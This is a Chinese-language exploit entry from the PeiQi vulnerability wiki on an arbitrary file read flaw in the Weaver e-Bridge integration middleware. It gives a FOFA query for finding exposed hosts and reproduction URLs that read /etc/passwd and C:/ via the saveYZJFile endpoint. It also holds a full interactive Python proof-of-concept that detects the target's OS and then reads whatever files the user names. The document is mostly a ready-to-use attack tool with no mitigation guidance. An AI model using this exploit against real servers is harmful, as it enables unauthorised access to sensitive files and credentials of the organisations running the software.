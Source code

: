 ```yaml
---
title: 泛微云桥 e-Bridge 任意文件读取
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 泛微OA
---
```


# 泛微云桥 e-Bridge 任意文件读取

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 影响版本

> [!NOTE]
>
> 泛微云桥 e-Bridge 2018-2019 多个版本

## FOFA

> [!NOTE]
>
> title="泛微云桥e-Bridge"

## 漏洞复现

> [!NOTE]
>
> 分为两种，分别为 Windows 和 Linux

### Windows

访问 **http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt**

![](/img/20210924015125411959.png)

成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![](/img/20210924015125598337.png)

### Linux

访问 **http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt**

![](/img/20210924015127025213.png)

成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![](/img/20210924015127197156.png)

## 漏洞利用POC

> [!NOTE]
>
> 注意读取Linux系统文件时，需要完整路径
>
> 例如读取根目录下的 1.txt
>
> 应为 /1.txt 而不是 1.txt

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                         \033[0m')
    print('+  \033[34mVersion: 泛微云桥 e-Bridge                                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

# 判断操作系统 or 判断漏洞是否可利用
def POC_1(target_url):
    vuln_url_1 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt"
    vuln_url_2 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt"
    vuln_url_3 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///&fileExt=txt"


    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response_1 = requests.get(url=vuln_url_1, headers=headers, verify=False, timeout=10)
        response_2 = requests.get(url=vuln_url_2, headers=headers, verify=False, timeout=10)
        response_3 = requests.get(url=vuln_url_3, headers=headers, verify=False, timeout=10)
        if "无法验证您的身份" in response_1.text and "无法验证您的身份" in response_2.text:
            print("\033[31m[x] 漏洞已修复，不存在漏洞 \033[0m")
            sys.exit(0)
        else:
            if "No such file or directory" in response_1.text:
                print("\033[32m[o] 目标为 Linux 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_3.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"linux"
            elif "系统找不到指定的路径" in response_2.text:
                print("\033[32m[o] 目标为 Windows 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_1.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"windows"

            else:
                print("\033[31m[x] 无法获取目标系统\033[0m")
                sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# 验证漏洞
def POC_2(target_url, id):
    file_url = target_url + "/file/fileNoLogin/{}".format(id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        response.encoding = 'GBK'
        print("\033[32m[o] 成功读取：\n\033[0m{}".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# windows 文件读取
def POC_3(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except :
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")

# linux读取文件
def POC_4(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file://{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except:
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    id,system = POC_1(target_url)
    POC_2(target_url, id)
    while True:
        if system == "windows":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_3(target_url, File)
        if system == "linux":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_4(target_url, File)

```

![](/img/20210924015127338628.png)